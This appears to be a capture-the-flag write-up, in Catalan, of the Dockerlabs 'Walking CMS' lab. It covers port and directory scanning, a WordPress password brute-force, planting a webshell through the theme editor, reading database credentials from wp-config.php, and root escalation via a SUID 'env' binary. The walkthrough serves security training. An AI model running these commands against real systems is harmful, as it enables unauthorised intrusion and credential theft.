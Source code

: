 # Walking CMS

Plataforma: Dockerlabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 5 de diciembre de 2024 21:36

### NMAP

```bash
sudo nmap -p- -sS -vvv  -n -Pn 172.17.0.2 -oG allports
```

![image.png](<imagenes/image 39.png>)

![image.png](<imagenes/image 40.png>)

Gobuster per trobar directoris :

```bash
gobuster dir -u [http://172.17.0.2](http://172.17.0.2/) -w /usr/share/wordlists/dirb/common.txt
```

![image.png](<imagenes/image 41.png>)

Es un wordpress. Enumerem usuaris :

```bash
sudo wpscan --url [http://172.17.0.2/wordpress](http://172.17.0.2/wordpress) --enumerate u
```

![image.png](<imagenes/image 42.png>)

Usuari : mario

Busquem password amb :

```bash
sudo wpscan --url [http://172.17.0.2/wordpress](http://172.17.0.2/wordpress) -P /usr/share/wordlists/rockyou.txt
```

![image.png](<imagenes/image 43.png>)

Password: love

mario/love

Entrem al wp-admin amb les credencials
entrem al editor de themes i creem un nou com a test.php amb la webshell:

![image.png](<imagenes/image 44.png>)

Ens posen a l'espera i executem la webshell:

![image.png](<imagenes/image 45.png>)

Mire fitxer wp-config.php

Database: username: wordpressuser
Data base password: t9sH76gpQ82UFeZ3GXZS

Tractament TTY:

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Busquem permisos:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Explotem env:

```java
env /bin/sh -p

```

![image.png](<imagenes/image 46.png>)